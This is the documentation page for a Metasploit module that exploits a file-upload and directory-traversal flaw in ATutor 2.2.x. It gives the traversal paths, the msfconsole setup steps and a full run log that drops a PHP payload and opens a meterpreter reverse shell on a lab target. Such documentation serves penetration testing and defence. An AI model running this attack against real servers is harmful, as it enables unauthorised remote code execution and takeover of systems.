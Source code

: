 ## Vulnerable Application
This module exploits an arbitrary file upload vulnerability together with a directory traversal
flaw in ATutor versions 2.2.4, 2.2.2 and 2.2.1 in order to execute arbitrary commands.

This module first authenticates to ATutor, using a randomly generated token to get around the front end JavaScript verification
being used by the server. Next, the module generates a zip file containing a malicious PHP file.
The zip archive takes advantage of a directory traversal vulnerability that will cause the target to drop the PHP file
in the root server directory (`htdocs` for Windows and `html` for Linux targets) when unpacking the archive.
For Windows targets, the module assumes that the target server uses XAMPP.
However, users can override this default by setting a custom file traversal path.
The PHP file contains an encoded payload that allows for remote command execution on the target server.
The zip archive can be uploaded via two vectors, the `Import New Language` function and the `Patcher` function.
The module first uploads the archive via `Import New Language` and then attempts to execute the payload
via an HTTP GET request to the PHP file in the root server directory.
If no session is obtained, the module creates another zip archive, uploads it via the `Patcher` function
and then attempts to execute the payload the same way as before. If a session is obtained, the module automatically
attempts to remove the malicious PHP file from the present working directory.

The module is compatible with both Windows and Linux targets. Users can specify a target OS, or use the `Auto` target option.
In the latter case, the module will try to detect the target OS based on the `Server` header set by the target
in its response to an HTTP request.

The module requires valid credentials for an ATutor account with admin privileges.
It has been successfully tested against ATutor 2.2.4 running on a Windows 10 machine that used XAMPP.
Vulnerable software can be downloaded here: https://sourceforge.net/projects/atutor/files/latest/download.
ATutor is no longer being maintained and version 2.2.4 was the last release.

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. Do: `use exploit/multi/http/atutor_upload_traversal`
4. Do: `set RHOSTS [IP]`
5. Do: `set USERNAME [username for the ATutor account]`
6. Do: `set PASSWORD [password for the ATutor account]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Targets

```
Exploit targets:

   Id  Name
   --  ----
   0   Auto
   1   Linux
   2   Windows

```


## Options
### FILE_TRAVERSAL_PATH
This is the traversal path to get from the upload path to the root server directory.
It is used to make sure the malicious PHP is dropped in the root server directory when the zip being uploaded to the target
is unpacked on the server side. The default value for Windows targets is `..\\..\\..\\..\\..\\../xampp\\htdocs\\`.
This assumes the target uses XAMPP, as recommended in the ATutor documentation.
The default value for Linux targets is `../../../../../../var/www/html/`.

### PASSWORD
The password for the ATutor account to authenticate with. This option is required.

### TARGETURI
The base path to ATutor. The default value is `/ATutor/`.

### USERNAME
The username for the ATutor account to authenticate with. This option is required.

### WfsDelay
The number of seconds to wait for a session to be created. This advanced option is used by the module to verify
if exploitation via the `Import New Language` function succeeded. The default value is 3.

## Scenarios
### ATutor 2.2.4 running on Windows 10 (XAMPP)
```
msf5 exploit(multi/http/atutor_upload_traversal) > show options
                                                                                                                  
Module options (exploit/multi/http/atutor_upload_traversal):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   FILE_TRAVERSAL_PATH                   no        Traversal path to the root server directory. Default for Windows targets: `..\..\..\..\..\../xampp\htdocs\`. Linux Default: `../../../../../../var/www/html/.`
   PASSWORD             root             yes       Password to authenticate with
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS               192.168.1.12     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                80               yes       The target port (TCP)
   SRVHOST              0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080             yes       The local port to listen on.
   SSL                  false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                               no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /ATutor/         yes       The base path to ATutor
   URIPATH                               no        The URI to use for this exploit (default is random)
   USERNAME             root             yes       Username to authenticate with
   VHOST                                 no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(multi/http/atutor_upload_traversal) > run

[*] Started reverse TCP handler on 192.168.1.28:4444 
[+] Successfully authenticated as user 'root'. We have admin privileges!
[+] Identified the target OS as Win64.
[*] Setting payload to windows/x64/meterpreter/reverse_tcp.
[*] Attempting exploitation via the `Import New Language` function.
[*] Uploaded malicious PHP file vanwqiz.php.
[*] Executing payload via /vanwqiz.php/qnwgdu?=<payload>...
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (201283 bytes) to 192.168.1.12
[*] Meterpreter session 1 opened (192.168.1.28:4444 -> 192.168.1.12:49512) at 2020-06-12 13:50:47 -0400
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[+] Deleted vanwqiz.php

meterpreter >

```
